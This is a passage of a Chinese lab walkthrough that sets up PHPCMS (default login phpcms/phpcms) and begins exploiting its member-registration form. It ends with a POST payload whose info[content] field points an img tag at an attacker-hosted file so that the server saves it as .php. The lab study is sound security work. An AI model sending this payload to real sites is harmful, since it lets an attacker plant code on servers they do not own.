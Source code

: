     - **下一步**

      **![image-20210330164939527](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210330164939527.png)**

    - **在账户设置填写有画红框的地方即可，其他默认不动。**

      **![image-20210330165134009](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210330165134009.png)**

    - **这里会报一个错误，这个错误是PHP的版本太高或太低了，在安装之前必须将版本调制v5.2<php<v7.3，在进行安装即可。**

      **![image-20210330165231266](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210330165231266.png)**

    - **安装成功后点击后台管理。**

      **![image-20210330165304613](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210330165304613.png)**

    - **登录后台,生成首页,默认账号密码phpcms/phpcms**

      **![image-20210330165552131](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210330165552131.png)**

    - **到这里前期的安装搭建完成了。**

###### **方法一、**

**1、浏览器访问前台,注册一个会员**

**![image-20210330165805481](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210330165805481.png)**

**2、burpsuite抓包**

**![image-20210330170243001](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210330170243001.png)**

**3、在(kali)系统下,开启web服务,然后在web根目录下创建一个文本文件**

```
开启web服务方法

service apache2 status
cd /var/www/html
touch phpinfo.txt
```

**![image-20210330171034440](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210330171034440.png)**

**4、构造POC**

- **注：modelid=11	在这里我们需要将其设置成11，modelid取值有1、2、3、10、11，但是10不可以**
- **每次发送更改username、password、pwdconfirm值**

```
siteid=1&modelid=11&username=111111&password=111111&pwdconfirm=111111&email=111111%40qq.com&nickname=111111&info[content]=<img src=http://IP/phpinfo.txt?.php#.jpg>&dosubmit=%E5%90%8C%E6%84%8F%E6%B3%A8%E5%86%8C%E5%8D%8F%E8%AE%AE%EF%BC%8C%E6%8F%90%E4%BA%A4%E6%B3%A8%E5%86%8C&protocol=
```
